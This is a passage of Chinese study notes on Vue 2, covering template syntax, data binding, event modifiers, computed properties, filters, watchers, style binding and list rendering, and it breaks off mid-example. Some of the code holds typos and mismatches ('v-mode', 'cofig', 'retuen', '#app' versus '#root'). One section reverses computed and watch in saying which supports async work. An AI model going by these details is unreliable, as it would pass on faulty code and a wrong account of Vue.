




# 总结

* 我们把数据托管到vue中，它通过==配置项==来实现我们自定义操作，其内部自动帮我们数据处理以及dom渲染
* 每一个组件都有一个对应的vue实例，里面存放了改组件的所有信息，且每个vue实例中数据独立
* ==this==的使用只能是在vue配置项中，即computed、methods、watch等，而==模板==中可以直接调用vue中数据
* 普通函数被vue管理则this指向就是vue实例，所有不被vue管理的函数【定时器回调函数、ajax回调函数、Promise回调函数】最好写成箭头函数，因为箭头异步回调函数中this没有明确指向会向外找，外面是vue函数那this=vue，否则vue=window
* 路由跳转其本质就是组件激活和销毁

# 模板语法

html 中包含了一些 JS 语法代码，语法分为两种，分别为：
1. 插值语法（**双大括号表达式**）

2. 指令（**以 v-开头**）

## 插值语法

`功能: `用于解析标签体内容，功能比较局限，仅仅在html中插入内容

`语法: `{{xxx}} ，xxxx 会作为 js 表达式解析

`案例:`

```vue
<div id="root">
        <!-- 3. 插值语法，用于获取vue中存储数据的对象中获取 -->
        <h1>{{name}}</h1>
</div>
```


## 指令语法

`功能: `解析**标签属性**、解析**标签体内容**、**绑定事件**......

`语法：`指令有很多，这里以v-bind举例。v-bind:href = 'xxxx' ，xxxx 会作为 js 表达式被解析，v-bind：可以简写为：

`案例：`

```vue
<body>
    <div id="root">
    <h1>插值语法：{{name}}</h1>
    <a v-bind:href="url">指令语法示例</a></br>
    <a :href="url">指令语法示例，简写</a>
    </div>

    <script type="text/javascript">
        new Vue({
            el: '#root',
            data: {
                name: 'hello world vuejs',
                url: 'http://www.baidu.com'
            },
            cofig: ({
                productionTip: true,
                devtooltip: true
            })
        })
    </script>
</body>
```


# 数据绑定

## 单向数据绑定

`语法：`v-bind:href ="xxx" 或简写为 :href

`特点：`数据只能从 data 流向页面，页面修改数据并不能流向data


## 双向数据绑定
1. 语法：v-mode:value="xxx" 或简写为 v-model="xxx"
2. 特点：数据不仅能从 data 流向页面，还能从页面流向 data


## 双向绑定 v-mode 局限

从上面两个看起来无脑使用v-mode就好了，但是理想太丰满，v-mode只能使用在**表单类元素**上 : **有value属性的标签**.

其实也很好理解，因为是由在交互的标签中才需要双向绑定，仅仅显示标签就没有必要且没有能力双向操作。


# data的两种写法

```vue
<div id="root">
        <h1>data写法 - 方式一</h1>
        <input type="text" v-bind:value="name1"></input>
        </br>
        <h1>data写法 - 方式二</h1>
        <input type="text" v-model:value="name2"></input>
    </div>

    <script type="text/javascript">
        new Vue({
            el: '#root',
            data: {
                name1: 'hello world vuejs'
            },
            data: function() {
                return {
                    name2: 'hello world vuejs'
                }
            }
        })
    </script>
```

> 这两种写法目前都可以，但是**以后用了vue组件，一定得用方式二**，否则会报错


# MVVM 模型



M：模型(Model) ：对应 data 中的数据

V：视图(View) ：模板

VM：视图模型(ViewModel) ： Vue 实例对


# MVVM 数据双向绑定原理 - 数据代理

```vue
<script type="text/javascript">
  let number = 18
  // 定义一个对象，有一个需求，我要动态的操作对象属性：如果直接操作对象肯定是不行的
  let data = {
    name: 'John',
    sex: '男'
  }

  //data对象新增一个属性，并操作它
  Object.defineProperty(data, 'age', {
    //基本操作 之 crud
    // value: 18, //赋值
    // enumerable: true, //控制属性是否可以枚举(递归属性是能否遍历到)
    // writable: true, //控制属性是否可以被修改，直接操作对象的话是不可以修改属性的
    // configurable: true, //控制属性是否被删除，直接操作对象并不能真正删除属性
    //高级操作 之 mvvm原理 ： 如何动态修改对象属性

    //当读取data的age属性就会触发此方法，变量的修改会动态修改对象属性
    get() {
      return number
    },

    //当修改属性时会触发此函数，对象的修改会触发变量的修改
    set(value) {
      number = value
    }
  })
</script>
```




# 事件处理

## 事件基本使用

```vue
   <div id="root">
        <h2>绑定事件监听</h2>
        <button v-on:click="test1">test1</button>
        <button @click="test1">test1</button>
        <!--可以传参数 -->
        <button @click="test2('abc')">test2</button>
        <button @click="test2(msg)">test2</button>
    </div>

    <script type="text/javascript">
        new Vue({
            el: '#app',
            data: {
                msg: '<a href="http:www.baidu.com">I Will Back!</a>',
                imgUrl: "https://cn.vuejs.org/images/logo.png"
            },
            methods: {
                test1() {
                  //方法中this指的是 vue对象
                    alert('heheh');
                },
                test2(content) {
                    alert(content);
                }
            }
        })
    </script>
```

> methods 对象中方法中 this 指的是vue对象。
>
> methods 对象中方法都有默认事件形参: event
>
> methods 对象中方法都有隐含属性对象: $event


## 事件修饰符

1. prevent：阻止默认事件（常用）；
2. stop：阻止事件冒泡（常用）；
3. once：事件只触发一次（常用）；
4. capture：使用事件的捕获模式；
5. self：只有event.target是当前操作的元素时才触发事件,也可以阻止冒泡；
6. passive：事件的默认行为立即执行，无需等待事件回调执行完毕；

```vue
		<div id="root">
			<h2>欢迎来到{{name}}学习</h2>
			<!-- 阻止默认事件（常用） -->
			<a href="http://www.atguigu.com" @click.prevent="showInfo">点我提示信息</a>

			<!-- 阻止事件冒泡（常用） -->
			<div class="demo1" @click="showInfo">
				<button @click.stop="showInfo">点我提示信息</button>
				<!-- 修饰符可以连续写 -->
				<!-- <a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a> -->
			</div>

			<!-- 事件只触发一次（常用） -->
			<button @click.once="showInfo">点我提示信息</button>

			<!-- 使用事件的捕获模式 -->
			<div class="box1" @click.capture="showMsg(1)">
				div1
				<div class="box2" @click="showMsg(2)">
					div2
				</div>
			</div>

			<!-- 只有event.target是当前操作的元素时才触发事件； -->
			<div class="demo1" @click.self="showInfo">
				<button @click="showInfo">点我提示信息</button>
			</div>

			<!-- 事件的默认行为立即执行，无需等待事件回调执行完毕； -->
			<ul @wheel.passive="demo" class="list">
				<li>1</li>
				<li>2</li>
				<li>3</li>
				<li>4</li>
			</ul>

		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			},
			methods:{
				showInfo(e){
					alert('同学你好！')
					// console.log(e.target)
				},
				showMsg(msg){
					console.log(msg)
				},
				demo(){
					for (let i = 0; i < 100000; i++) {
						console.log('#')
					}
					console.log('累坏了')
				}
			}
		})
	</script>
```

## 事件修饰符链式编程

```vue
<!-- 阻止默认事件以及 阻止事件冒泡 -->
<a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a>
```


## 键盘事件

```vue
	<div id="root">
			<h2>欢迎来到{{name}}学习</h2>
			<input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo">
		</div>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		Vue.config.keyCodes.huiche = 13 //定义了一个别名按键

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			},
			methods: {
				showInfo(e){
					// console.log(e.key,e.keyCode)
					console.log(e.target.value)
				}
			},
		})
	</script>
```

### 别名的作用

如果没有别名，我们要监听键盘事件，那么就需要如下操作

```vue
	<div id="root">
			<h2>欢迎来到{{name}}学习</h2>
			<input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo">
		</div>
	<script type="text/javascript">
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			},
			methods: {
				showInfo(e){
          //键盘不等于指定键的值则不处理
          if (e.keyCode != 13) retuen
					console.log(e.target.value)
				}
			},
		})
	</script>
```


### vue中常用别名有哪些

* 回车 => enter
* 删除 => delete (捕获“删除”和“退格”键)
* 退出 => esc
* 空格 => space
* 换行 => tab (特殊，必须配合keydown去使用)
* 上 => up
* 下 => down
* 左 => left
* 右 => right


### vue中如何使用别名

```vue
	<div id="root">
			<h2>欢迎来到{{name}}学习</h2>
     <!-- 只有敲击enter对应的回车键才会触发showInfo方法 -->
			<input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo">
		</div>

	<script type="text/javascript">
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			},
			methods: {
				showInfo(e){
					console.log(e.target.value)
				}
			},
		})
	</script>
```


### vue中特殊的别名

系统修饰键（用法特殊）：ctrl、alt、shift、meta

1. 配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。
2. 配合keydown使用：正常触发事件。

> 不建议使用 keyCode进行判断，如果常用别名不够，可以使用名称进行判断


### 多个别名触发

```vue
<input type="text" placeholder="按下CTRL + H 提示输入" @keydown.ctrl.H="showInfo">
```


# 计算属性

`定义：`要用的属性不存在，要通过已有属性计算得来。 

`原理：`底层借助了Objcet.defineproperty方法提供的getter和setter，参考上面的数据代理。

`优势：`与methods实现相比，内部有缓存机制（复用），效率更高，调试方便。

`为什么会有计算属性`: ==插值语法==和==方法==都可以实现类似作用，==插值语法==计算复杂操作室导致坏味道，==方法==实现没有缓存机制影响性能

`备注：`

1. 计算属性最终会出现在vm上，直接读取使用即可。

2. 如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变。


```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>姓名案例_计算属性实现</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			姓：<input type="text" v-model="firstName"> <br/><br/>
			名：<input type="text" v-model="lastName"> <br/><br/>
			全名：<span>{{fullName}}</span> <br/><br/>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				firstName:'张',
				lastName:'三',
			},
			computed:{
				//完整写法
				/* fullName:{
					get(){
						return this.firstName + '-' + this.lastName
					},
					set(value){
						console.log('set',value)
						const arr = value.split('-')
						this.firstName = arr[0]
						this.lastName = arr[1]
					}
				} */
				//简写
				fullName(){
          //之所以可以使用this因为vue将计算属性中的this指向了vue实例
					return this.firstName + '-' + this.lastName
				}
			}
		})
	</script>
</html>
```


# 过滤器

和 计算属性作用一样。只能配合插值语法操作

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>过滤器</title>
		<script type="text/javascript" src="../js/vue.js"></script>
		<script type="text/javascript" src="../js/dayjs.min.js"></script>
	</head>
	<body>
		<!-- 
        过滤器：
            定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
            语法：
                1.注册过滤器：Vue.filter(name,callback) 或 new Vue{filters:{}}
                2.使用过滤器：{{ xxx | 过滤器名}}  或  v-bind:属性 = "xxx | 过滤器名"
            备注：
                1.过滤器也可以接收额外参数、多个过滤器也可以串联
                2.并没有改变原本的数据, 是产生新的对应的数据
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>显示格式化后的时间</h2>
			<!-- 计算属性实现 -->
			<h3>现在是：{{fmtTime}}</h3>
			<!-- methods实现 -->
			<h3>现在是：{{getFmtTime()}}</h3>
			<!-- 过滤器实现 -->
			<h3>现在是：{{time | timeFormater}}</h3>
			<!-- 过滤器实现（传参） 层层传递，第三个过滤器只接受第二个的结果值-->
			<h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
			<h3 :x="msg | mySlice">尚硅谷</h3>
		</div>

		<div id="root2">
			<h2>{{msg | mySlice}}</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false
		//全局过滤器 
		Vue.filter('mySlice',function(value){
			return value.slice(0,4)
		})
		
		new Vue({
			el:'#root',
			data:{
				time:1621561377603, //时间戳
				msg:'你好，尚硅谷'
			},
			computed: {
				fmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			methods: {
				getFmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			//局部过滤器
			filters:{
				timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
					// console.log('@',value)
					return dayjs(value).format(str)
				}
			}
		})

		new Vue({
			el:'#root2',
			data:{
				msg:'hello,atguigu!'
			}
		})
	</script>
</html>
```


# 监视属性

 `作用:` 对数据进行检测，然后做一些操作，最后进行展示

`备注:` 计算属性同为属性，可以监视它


## 简单使用

```vue
<!DOCTYPE html>
<html>

<head>
    <meta charset="UTF-8" />
    <title>天气案例_监视属性</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>

<body>
    <!-- 
        监视属性watch：
            1.当被监视的属性变化时, 回调函数自动调用, 进行相关操作
            2.监视的属性必须存在，才能进行监视！！
            3.监视的两种写法：
                (1).new Vue时传入watch配置
                (2).通过vm.$watch监视
		 -->
    <!-- 准备好一个容器-->
    <div id="root">
        <h2>今天天气很{{info}}</h2>
        <button @click="changeWeather">切换天气</button>
    </div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
            info: '炎热'
        },
        // computed: {
        //     info() {
        //         return this.isHot ? '炎热' : '凉爽'
        //     }
        // },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
        //第一种写法
        watch: {
            isHot: {
                immediate: true, //初始化时让handler调用一下
                //handler什么时候调用？当isHot发生改变时。
                handler(newValue, oldValue) {
                    console.log('isHot被修改了', newValue, oldValue)
                    this.info = this.isHot ? '炎热' : '凉爽'
                }
            }
        }
    })
</script>

</html>
```


## 深度监视

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>天气案例_深度监视</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
			深度监视：
				(1).Vue中的watch默认不监测对象内部值的改变（一层）。
				(2).配置deep:true可以监测对象内部值改变（多层）。
			备注：
				(1).Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以！
				(2).使用watch时根据数据的具体结构，决定是否采用深度监视。
		 -->
		<!-- 准备好一个容器-->
		<div id="root">
			<h3>a的值是:{{numbers.a}}</h3>
			<button @click="numbers.a++">点我让a+1</button>
			<h3>b的值是:{{numbers.b}}</h3>
			{{numbers.c.d.e}}
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		const vm = new Vue({
			el:'#root',
			data:{
				isHot:true,
				numbers:{
					a:1,
					b:1,
					c:{
						d:{
							e:100
						}
					}
				}
			},
			computed:{
				info(){
					return this.isHot ? '炎热' : '凉爽'
				}
			},
			methods: {
				changeWeather(){
					this.isHot = !this.isHot
				}
			},
			watch:{
				//监视多级结构中某个属性的变化
				/* 'numbers.a':{
					handler(){
						console.log('a被改变了')
					}
				} */
				//监视多级结构中所有属性的变化，即任意子孙对象变化都会引起number的监听事件
				numbers:{
					deep:true,
					handler(){
						console.log('numbers改变了')
					}
				}
			}
		})
	</script>
</html>
```


## 计算属性和监听属性

* 监听属性值全靠return返回结果，且不支持异步操作
* 计算属性可以支持异步操作


# 绑定样式

## 样式准备

```html
		<style>
			.basic{
				width: 400px;
				height: 100px;
				border: 1px solid black;
			}
			
			.happy{
				border: 4px solid red;;
				background-color: rgba(255, 255, 0, 0.644);
				background: linear-gradient(30deg,yellow,pink,orange,yellow);
			}
			.sad{
				border: 4px dashed rgb(2, 197, 2);
				background-color: gray;
			}
			.normal{
				background-color: skyblue;
			}

			.atguigu1{
				background-color: yellowgreen;
			}
			.atguigu2{
				font-size: 30px;
				text-shadow:2px 2px 10px red;
			}
			.atguigu3{
				border-radius: 20px;
			}
		</style>
```


## 绑定class/style样式

```vue
	<body>
		<!-- 
        绑定样式：
            1. class样式
                写法:class="xxx" xxx可以是字符串、对象、数组。
                    字符串写法适用于：类名不确定，要动态获取。
                    对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
                    数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。
            2. style样式
                :style="{fontSize: xxx}"其中xxx是动态值。
                :style="[a,b]"其中a、b是样式对象。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
      <!-- 添加基础样式basic，根据点击事件动态修改样式，如果写两个class是不被支持的，必须是一个基础class，一个扩展:class-->
			<div class="basic" :class="mood" @click="changeMood">{{name}}</div> <br/><br/>

			<!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
			<div class="basic" :class="classArr">{{name}}</div> <br/><br/>

			<!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
			<div class="basic" :class="classObj">{{name}}</div> <br/><br/>

			<!-- 绑定style样式--对象写法 -->
			<div class="basic" :style="styleObj">{{name}}</div> <br/><br/>
			<!-- 绑定style样式--数组写法 -->
			<div class="basic" :style="styleArr">{{name}}</div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false
		
		const vm = new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				mood:'normal',
				classArr:['atguigu1','atguigu2','atguigu3'],
				classObj:{
					atguigu1:false,
					atguigu2:false,
				},
				styleObj:{
					fontSize: '40px',
					color:'red',
				},
				styleObj2:{
					backgroundColor:'orange'
				},
				styleArr:[
					{
						fontSize: '40px',
						color:'blue',
					},
					{
						backgroundColor:'gray'
					}
				]
			},
			methods: {
				changeMood(){
					const arr = ['happy','sad','normal']
					const index = Math.floor(Math.random()*3)
					this.mood = arr[index]
				}
			},
		})
	</script>
```


# 条件渲染

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>条件渲染</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
        条件渲染：
            1.v-if
                写法：
                    (1).v-if="表达式" 
                    (2).v-else-if="表达式"
                    (3).v-else="表达式"
                适用于：切换频率较低的场景。
                特点：不展示的DOM元素直接被移除。
                注意：v-if可以和:v-else-if、v-else一起使用，但要求结构不能被“打断”。

            2.v-show
                写法：v-show="表达式"
                适用于：切换频率较高的场景。
                特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉
                
            3.备注：使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到。
		 -->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
			<!-- 使用v-show做条件渲染 -->
			<!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
			<!-- <h2 v-show="1 === 1">欢迎来到{{name}}</h2> -->

			<!-- 使用v-if做条件渲染 -->
			<!-- <h2 v-if="false">欢迎来到{{name}}</h2> -->
			<!-- <h2 v-if="1 === 1">欢迎来到{{name}}</h2> -->

			<!-- v-else和v-else-if -->
			<!-- <div v-if="n === 1">Angular</div>
			<div v-else-if="n === 2">React</div>
			<div v-else-if="n === 3">Vue</div>
			<div v-else>哈哈</div> -->

			<!-- v-if与template的配合使用 -->
			<template v-if="n === 1">
				<h2>你好</h2>
				<h2>尚硅谷</h2>
				<h2>北京</h2>
			</template>

		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false

		const vm = new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				n:0
			}
		})
	</script>
</html>
```


# 列表渲染

## 基本列表

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>基本列表</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
        v-for指令:
            1.用于展示列表数据
            2.语法：v-for="(item, index) in xxx" :key="yyy"
            3.可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 遍历数组 -->
			<h2>人员列表（遍历数组）</h2>
			<ul>
				<li v-for="(p,index) of persons" :key="index">
					{{p.name}}-{{p.age}}
				</li>
			</ul>

			<!-- 遍历对象 -->
			<h2>汽车信息（遍历对象）</h2>
			<ul>
				<li v-for="(value,k) of car" :key="k">
					{{k}}-{{value}}
				</li>
			</ul>

			<!-- 遍历字符串 -->
			<h2>测试遍历字符串（用得少）</h2>
			<ul>
				<li v-for="(char,index) of str" :key="index">
					{{char}}-{{index}}
				</li>
			</ul>
			
			<!-- 遍历指定次数 -->
			<h2>测试遍历指定次数（用得少）</h2>
			<ul>
				<li v-for="(number,index) of 5" :key="index">
					{{index}}-{{number}}
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			new Vue({
				el:'#root',
				data:{
					persons:[
						{id:'001',name:'张三',age:18},
						{id:'002',name:'李四',age:19},
						{id:'003',name:'王五',age:20}
					],
					car:{
						name:'奥迪A8',
						price:'70万',
						color:'黑色'
					},
					str:'hello'
				}
			})
		</script>
</html>
```


## 列表展示 - Key

react、vue中的key有什么作用？（key的内部原理）
                
1. 虚拟DOM中key的作用：
            key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】, 
            随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：
                        
       
1. 对比规则：
            (1).旧虚拟DOM中找到了与新虚拟DOM相同的key:
                ①.若虚拟DOM中内容没变, 直接使用之前的真实DOM！
                ②.若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。
       
       ​	 (2).旧虚拟DOM中未找到与新虚拟DOM相同的key:创建新的真实DOM，随后渲染到到页面。

3. 用index作为key可能会引发的问题：
	1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作:会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。
	2. 如果结构中还包含输入类的DOM：会产生错误DOM更新 ==> 界面有问题。

4. 开发中如何选择key?:
	1.最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。
	2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key是没有问题的。






## 列表过滤

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>列表过滤</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>人员列表</h2>
			<input type="text" placeholder="请输入名字" v-model="keyWord">
			<ul>
				<li v-for="(p,index) of filPerons" :key="index">
					{{p.name}}-{{p.age}}-{{p.sex}}
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			//用watch实现
			//#region 
			/* new Vue({
				el:'#root',
				data:{
					keyWord:'',
					persons:[
						{id:'001',name:'马冬梅',age:19,sex:'女'},
						{id:'002',name:'周冬雨',age:20,sex:'女'},
						{id:'003',name:'周杰伦',age:21,sex:'男'},
						{id:'004',name:'温兆伦',age:22,sex:'男'}
					],
					filPerons:[]
				},
				watch:{
					keyWord:{
						immediate:true,
						handler(val){
							this.filPerons = this.persons.filter((p)=>{
								return p.name.indexOf(val) !== -1
							})
						}
					}
				}
			}) */
			//#endregion
			
			//用computed实现
			new Vue({
				el:'#root',
				data:{
					keyWord:'',
					persons:[
						{id:'001',name:'马冬梅',age:19,sex:'女'},
						{id:'002',name:'周冬雨',age:20,sex:'女'},
						{id:'003',name:'周杰伦',age:21,sex:'男'},
						{id:'004',name:'温兆伦',age:22,sex:'男'}
					]
				},
				computed:{
					filPerons(){
						return this.persons.filter((p)=>{
							return p.name.indexOf(this.keyWord) !== -1
						})
					}
				}
			}) 
		</script>
</html>
```


## 列表排序

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>列表排序</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>人员列表</h2>
			<input type="text" placeholder="请输入名字" v-model="keyWord">
			<button @click="sortType = 2">年龄升序</button>
			<button @click="sortType = 1">年龄降序</button>
			<button @click="sortType = 0">原顺序</button>
			<ul>
				<li v-for="(p,index) of filPerons" :key="p.id">
					{{p.name}}-{{p.age}}-{{p.sex}}
					<input type="text">
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			new Vue({
				el:'#root',
				data:{
					keyWord:'',
					sortType:0, //0原顺序 1降序 2升序
					persons:[
						{id:'001',name:'马冬梅',age:30,sex:'女'},
						{id:'002',name:'周冬雨',age:31,sex:'女'},
						{id:'003',name:'周杰伦',age:18,sex:'男'},
						{id:'004',name:'温兆伦',age:19,sex:'男'}
					]
				},
				computed:{
					filPerons(){
						const arr = this.persons.filter((p)=>{
							return p.name.indexOf(this.keyWord) !== -1
						})
						//判断一下是否需要排序
						if(this.sortType){
							arr.sort((p1,p2)=>{
								return this.sortType === 1 ? p2.age-p1.age : p1.age-p2.age
							})
						}
						return arr
					}
				}
			}) 

		</script>
</html>
```


## 列表添加

### 添加属性

```vue
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Vue监测数据改变的原理</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学校信息</h1>
			<h2>学校名称：{{school.name}}</h2>
			<h2>学校地址：{{school.address}}</h2>
			<h2>校长是：{{school.leader}}</h2>
			<hr/>
			<h1>学生信息</h1>
			<button @click="addSex">添加一个性别属性，默认值是男</button>
			<h2>姓名：{{student.name}}</h2>
			<h2 v-if="student.sex">性别：{{student.sex}}</h2>
			<h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
			<h2>朋友们</h2>
			<ul>
				<li v-for="(f,index) in student.friends" :key="index">
					{{f.name}}--{{f.age}}
				</li>
			</ul>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				school:{
					name:'尚硅谷',
					address:'北京',
				},
				student:{
					name:'tom',
					age:{
						rAge:40,
						sAge:29,
					},
					friends:[
						{name:'jerry',age:35},
						{name:'tony',age:36}
					]
				}
			},
			methods: {
				addSex(){
					// Vue.set(this.student,'sex','男')
